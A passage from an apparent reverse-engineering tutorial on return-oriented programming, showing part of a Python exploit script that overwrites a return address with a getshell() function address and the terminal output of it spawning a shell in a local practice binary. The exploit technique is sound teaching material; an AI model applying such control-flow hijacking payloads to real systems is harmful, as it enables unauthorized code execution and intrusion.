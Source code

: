		# Change this value to what address you get.
		getshell_address = 0x00000000004005b6
		
		# Address of getshell() in little-endian byte order.
		# For 64-bit executables, 
		payload += struct.pack('<Q', getshell_address)

		# For 32-bit executables, 
		# payload += payload + struct.pack('<I', getshell_address)
	
		# Write the payload into a file - payload.txt
		fo = open("payload.txt", "wb")
		fo.write(payload)
		fo.close()

		print("Payload saved in file: payload.txt")

	```
* Download [exploit1.py from here](/assets/2019-03-30-return-oriented-programming-part2/exploit1.py). The above function is the crux of the exploit.

### 4. Running the exploit

* Let us run the exploit script and inject the payload into **code1**. 

```
	rev_eng_series/post_17}=)> chmod u+x exploit1.py
	rev_eng_series/post_17}=)> ./exploit1.py 
	Payload saved in file: payload.txt
	rev_eng_series/post_17}=)> cat payload.txt - | ./code1

	Get Shell executed!
	whoami
	adwi

	uname 
	Linux
	uname -r
	4.15.0-46-generic
	^C
```

* Bingo! We got the shell!

This example was a pretty easy one. It demonstrated basic control-flow hijacking. This is the foundation for the upcoming examples. Make sure you have understood what we did in this example.
